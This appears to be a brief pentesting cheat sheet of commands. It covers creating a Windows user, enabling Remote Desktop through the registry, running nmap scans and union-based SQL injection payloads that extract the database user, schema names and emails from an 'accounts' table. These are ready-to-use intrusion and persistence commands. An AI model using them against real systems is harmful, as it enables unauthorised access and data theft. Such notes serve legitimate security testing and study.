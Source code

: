 
### Windows Commands

1. Create user, the command is 
net user {username} {password}


examples:

```CMD
net user lucas pw1234
```

2. Eable remote desktop service 

```CMD
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

3. Switch user

```CMD
runas /user:lucas cmd
```

### NMAP Command

1. Common ports 
```CMD
nmap -sS -P0  -A -oA 192.168.100.1 -T4 192.168.100.1
```

2. Full ports
```CMD
 nmap -sS -P0 -p- -A -oA 192.168.100.1.log -T4 192.168.100.1
```

### Common SQL Injection Command
	
	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2,user()  --%20



	
	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2, ( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1 )--%20




	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2, ( SELECT column_name FROM information_schema.columns WHERE table_name='accounts' limit 0,1 )--%20




	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2, ( SELECT email FROM   accounts limit 0,1 )--%20

### Linux Command

1. base64 decode
```SH
echo "aGVsbG8=" | base64 -d 
```
